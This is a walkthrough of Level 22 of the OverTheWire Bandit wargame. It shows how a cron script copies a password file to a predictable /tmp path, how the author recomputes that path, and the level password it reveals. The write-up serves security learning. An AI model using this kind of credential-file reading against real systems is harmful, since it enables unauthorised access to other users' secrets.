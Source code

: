 # Level 22

Connect to the server with `bandit22` and the password.

> A program is running automatically at regular intervals from cron, the
> time-based job scheduler. Look in /etc/cron.d/ for the configuration and see
> what command is being executed.

Again, I see what this cron job looks like.

    bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
    @reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
    * * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null

I take a look at this bash script.

    bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
    #!/bin/bash

    myname=$(whoami)
    mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

    echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

    cat /etc/bandit_pass/$myname > /tmp/$mytarget

This is very easy, I simply have to re-run this with *myname* set to `bandit23` to get the target name.

    bandit22@bandit:~$ myname=bandit23
    bandit22@bandit:~$ mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
    bandit22@bandit:~$ cat /tmp/$mytarget
    jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
    bandit22@bandit:~$ 

